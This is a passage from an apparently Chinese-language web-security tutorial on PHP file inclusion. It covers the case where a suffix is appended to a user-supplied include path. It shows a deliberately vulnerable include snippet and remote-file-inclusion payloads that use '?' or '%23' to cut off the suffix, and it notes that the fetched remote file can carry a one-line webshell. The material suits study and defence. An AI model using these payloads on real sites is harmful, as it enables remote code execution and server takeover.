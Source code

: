 

### <mark style="color:purple;background-color:yellow;">（2）遇到后缀</mark>

```php
<?php
    $file = $_GET['file'];
    include $file.'/test/test.php';
?>
```

文章中提到了include有两种情况，一种是结果file是个路径，是个url，一个是file是个伪协议。我们也按照上面写的来。

#### <mark style="color:yellow;background-color:blue;">①解决url</mark>

url拼接之后就是

```url
http://**********/path/file.php/test/test.php
```

我们可以用query(?)和fragement()来绕过。

条件：

* allow\_url\_fopen()=on
* allow\_url\_include()=on

#### (1)query(?)

首先我们解释一下url中的query是什么

> URL查询(Query)是指在URL(Uniform Resource Locator，统一资源定位符)中的问号（?）后面添加的键值对。我们的文件里面如果没有需要添加的键值对的话是就算后面有？也不起作用。

姿势：

在我们常写的file后面加一个？就是新的file里面应该有的

```url
index.php?file=http://remoteaddr/remoteinfo.txt?
```

如果我们要写入木马或者命令的话，只要将remoteinfo.txt的内容变成一句话木马就行。



#### （2）fragment（#/%23）

首先我们解释一下什么是url里面的fragment

> URL片段（URL fragment）是一个附加到URL的字符串，以#为前缀。它旨在帮助浏览器识别特定内容或部分页面，并不会发送到服务器，也不会影响页面的加载。

姿势：

在我们常写的file后面加一个#就是新的file里面应该有的

```url
index.php?file=http://remoteaddr/remoteinfo.txt%23
```
